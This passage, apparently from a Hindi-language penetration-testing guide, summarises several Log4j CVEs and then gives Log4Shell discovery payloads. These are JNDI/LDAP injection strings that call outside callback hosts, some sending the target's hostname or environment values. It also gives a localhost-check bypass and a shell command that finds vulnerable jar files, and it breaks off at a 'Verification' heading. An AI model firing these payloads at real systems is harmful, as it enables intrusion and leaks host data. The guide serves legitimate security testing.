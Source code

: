 ### [CVE-2021-42550](https://nvd.nist.gov/vuln/detail/CVE-2021-42550) **\[Moderate]**

यह कमजोरियाँ **Logback लॉगिंग ढांचे** को प्रभावित करती है, जो Log4j 1.x का उत्तराधिकारी है। पहले इसे सुरक्षित माना गया था, लेकिन ढांचे को कमजोर पाया गया, और नए संस्करण (1.3.0-alpha11 और 1.2.9) जारी किए गए हैं ताकि इस मुद्दे को हल किया जा सके।

### **CVE-2021-45105** **\[High]**

Log4j 2.16.0 में एक DoS दोष है, जिससे CVE को ठीक करने के लिए `log4j 2.17.0` जारी किया गया। अधिक विवरण BleepingComputer की [रिपोर्ट](https://www.bleepingcomputer.com/news/security/upgraded-to-log4j-216-surprise-theres-a-217-fixing-dos/) में हैं।

### [CVE-2021-44832](https://checkmarx.com/blog/cve-2021-44832-apache-log4j-2-17-0-arbitrary-code-execution-via-jdbcappender-datasource-element/)

Log4j संस्करण 2.17 को प्रभावित करने वाला यह CVE हमलावर को log4j के कॉन्फ़िगरेशन फ़ाइल को नियंत्रित करने की आवश्यकता है। इसमें एक कॉन्फ़िगर किए गए JDBCAppender के माध्यम से संभावित मनमाने कोड निष्पादन शामिल है। अधिक विवरण [Checkmarx ब्लॉग पोस्ट](https://checkmarx.com/blog/cve-2021-44832-apache-log4j-2-17-0-arbitrary-code-execution-via-jdbcappender-datasource-element/) में उपलब्ध हैं।

## Log4Shell Exploitation

### Discovery

यह कमजोरियाँ बहुत आसानी से खोजी जा सकती है यदि यह असुरक्षित है क्योंकि यह आपके द्वारा अपने पेलोड में निर्दिष्ट पते पर कम से कम एक **DNS अनुरोध** भेजेगी। इसलिए, पेलोड जैसे:

* `${jndi:ldap://x${hostName}.L4J.lt4aev8pktxcq2qlpdr5qu5ya.canarytokens.com/a}` (using [canarytokens.com](https://canarytokens.org/generate))
* `${jndi:ldap://c72gqsaum5n94mgp67m0c8no4hoyyyyyn.interact.sh}` (using [interactsh](https://github.com/projectdiscovery/interactsh))
* `${jndi:ldap://abpb84w6lqp66p0ylo715m5osfy5mu.burpcollaborator.net}` (using Burp Suite)
* `${jndi:ldap://2j4ayo.dnslog.cn}` (using [dnslog](http://dnslog.cn))
* `${jndi:ldap://log4shell.huntress.com:1389/hostname=${env:HOSTNAME}/fe47f5ee-efd7-42ee-9897-22d18976c520}` using (using [huntress](https://log4shell.huntress.com))

ध्यान दें कि **यहां तक कि यदि एक DNS अनुरोध प्राप्त होता है, तो इसका मतलब यह नहीं है कि अनुप्रयोग दुरुपयोग योग्य है** (या यहां तक कि कमजोर है), आपको इसे दुरुपयोग करने का प्रयास करना होगा।

{% hint style="info" %}
याद रखें कि **संस्करण 2.15** का दुरुपयोग करने के लिए आपको **localhost जांच बायपास** जोड़ने की आवश्यकता है: ${jndi:ldap://**127.0.0.1#**...}
{% endhint %}

#### **Local Discovery**

**स्थानीय कमजोर संस्करणों** की खोज करें:
```bash
find / -name "log4j-core*.jar" 2>/dev/null | grep -E "log4j\-core\-(1\.[^0]|2\.[0-9][^0-9]|2\.1[0-6])"
```
### **Verification**
